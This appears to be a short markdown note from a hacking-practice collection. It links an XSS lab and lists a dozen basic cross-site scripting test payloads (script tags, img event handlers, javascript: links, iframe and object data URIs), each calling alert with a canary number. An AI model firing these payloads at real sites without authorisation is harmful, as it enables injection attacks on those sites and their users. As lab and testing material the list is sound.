 # hackinghub

## xss  
[https://app.hackinghub.io/hubs/nbbc-xss](https://app.hackinghub.io/hubs/nbbc-xss)    

### Example XSS Payloads  
- The number `19628397001` is just a random number that can be used as a [canary](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/settings/canary) to search proxy history for the value.  

```
<script>alert(19628397001)</script>
<script>alert(19628397001)
<script>alert(19628397001);//</script>
<script>confirm(19628397001);//</script>
<img src=xxxxx onmouseover=alert(19628397001)>
<img src=xxxxx onerror=alert(19628397001)>
<a href=javascript:alert(19628397001)>xsstest</a>
<a href=javascript:alert(19628397001)>xsstest
<iframe src=javascript:alert(19628397001)>
<object data="data:text/html,<script>alert(19628397001)</script>"></object>
<script src="data:text/javascript,alert(19628397001)"></object>
</p><h1><u/onmouseover=alert(1)>19628397001
```


